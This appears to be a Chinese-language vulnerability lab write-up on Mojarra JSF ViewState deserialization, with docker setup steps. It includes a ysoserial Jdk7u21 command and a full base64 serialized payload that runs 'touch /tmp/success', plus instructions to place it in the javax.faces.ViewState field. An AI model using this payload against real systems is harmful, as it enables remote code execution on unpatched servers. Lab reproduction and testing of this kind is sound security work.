

# Mojarra JSF ViewState 反序列化漏洞

JavaServer Faces (JSF) 是一种用于构建 Web 应用程序的标准，Mojarra是一个实现了JSF的框架。在其2.1.29-08、2.0.11-04版本之前，没有对JSF中的ViewState进行加密，进而导致攻击者可以构造恶意的序列化ViewState对象对服务器进行攻击。

参考链接：

- https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html
- https://www.exploit-db.com/docs/48126
- https://www.synacktiv.com/ressources/JSF_ViewState_InYourFace.pdf

## 环境搭建

执行如下命令启动一个使用了JDK7u21和mojarra 2.1.28的JSF应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到demo页面。

## 漏洞复现

JSF的ViewState结构如下：


根据这个结构，我们使用ysoserial的Jdk7u21利用链来生成一段合法的Payload：

```
$ java -jar ysoserial-master-SNAPSHOT.jar Jdk7u21 "touch /tmp/success" | gzip | base64 -w 0
H4sIAAVGF18AA61WzW8bRRR/Yye2Y9zmo/lsaZvQlnxAd/PlJsURbT5Ia3BIhNNUwocwXk/sbde7293ZZINEb/wBCJX/AJBoOPRCqx6QKm4tFyQkUFEluHADDhUSFz7e7G5iKwnYLV1pd2bf17z35jdv3tYv0Ghb0HWFrlPJ4aomZVT9KitcpHYpy/j32ndv33g0dCwE4FrQWpEK+Hfn3r/x0Z3b42HkmxsJAGg5dx7EE0KrryhGWbIdXTKsokRNqpSY5FKN6pKqc2bpVJNcW+OKxC3qSsusbGqUMzuNY9PlxXv61s2xMETScGBV1QtM52865Tyz0nBwFRV0W2M8jXQ3B/HV/CZnilFgNodwLjeTg8iqolEbf9tyGeG2jMsW5VlBS2WgcVWnZYbMKl6WW6peRGbrquFw0+FLlmEyi6vCaKcvKGKXK/SUa4pY/8bHsbyF3/izp6NY/GFCJEzwQkgP5Wa2Hnf9EYkt/xiQI5/d/+vul8gehbNxCMMLUZiIwqkovEigxWaWSrUVZtmqoV9KzxEgrxM4MGvoNqc6X6Gawxo/7/3w8QePfnuVQGRK1VWOk/DA4AqBhlnMAoFm3Ebm52uZ5jWktGUMBc1SNI7/AbGBl1SbwKEsd/LLQU6X6KZm0AKBRFrXmeWljKFQMrNpG75zsunL2H5CLtBCkXH75D5WUgSavM1aM6wyAWsgg5iQERMyYkL2MSF7mJC3MSF7mJDnFhdSuX2ly1pF1vdHfZdZcjaYUo55u0j1gsaslEhJrGAoThnxQ+D0Ey2PqiXfDoY/8/+dIRB/zVWYKWh2FPoJfPJk+ajpQYGX5bnlhWlXtdNIotywaivVlUM1MCdw8DReEIgGuSQw/SwymTUcS2HzqoBxIkCgJA5pAuLwXBQGCIw9BWAJnK93RyxH52qZydN5GyGu8G1LBNq9YqEaFee903a2XsvblnbQQuB4jVhwi6YULSgFrZWq9pbvZBSGMGcoGPwT6BgYzOwRSyXgZTgdh5dAworBDUcp9cq8bKLXisJsOwbDWDSYyxQC/QN7i2e1SSyTQgVNjsKYMDmOVSzLqXJ1gZpB/amKamkDi83oxPBIMpmcnBgZGR8Zm0CNvkwNkRT0QQhrKPqF72FohAiOUVF7IebREA74FZeTjCPBsXHoNpBbnsgB/EY8ogwH8ZvwBaAZJnHE0gjtKCWUz+EbFrTdiuOeYq/PDBTFrAM6PT6BLuhGjR6c+z4Ks0cCs2mPuo/ZSc/skM/c1+zzcBQ1xOwYHMflKwvEYHAn6JPIEVLNn0KYZO6A3DbyBSQv3/IUz3hBESHR663fB604xpEVghPQAk3ONbiOtoB8u3NnHRF3VkcUuqLQHYWeeu+saz+rv06VL3Q/mzsrPG8Ye+6oUzXvKNSqp3ocJnCiDlMYegXwi/krTPn301/rBP8njkn9OJ7aheM2j3/I+7ZX7W6n2F2TQwMeK8vcIODa73mYOCr8dyUsyNLO1V3pztztblHELFlsTcOgJTzs7uZP/Q97v26ZfRACkgFS4rgdlewEknJaX8dNrS7mrom94qjoE7etUV03uCcjTe9M9yheuv97c8eD6x+HIJSBRJkJ4HhIw36tuapfw3KDXV0D3zSx42vd0w16y+9qbVGlMfrw3led73yDR2Me4mK75rHGG9h+NvGSxeySoRVcM+h2Exsx0fuK9HGIrSVpkp4ZnhQnJ+auWzUyCpXHNd1/AEKwhdeSCwAA
```

然后，我们提交表单并抓包，修改其中`javax.faces.ViewState`字段的值为上述Payload（别忘了URL编码）：


`touch /tmp/success`已成功执行：


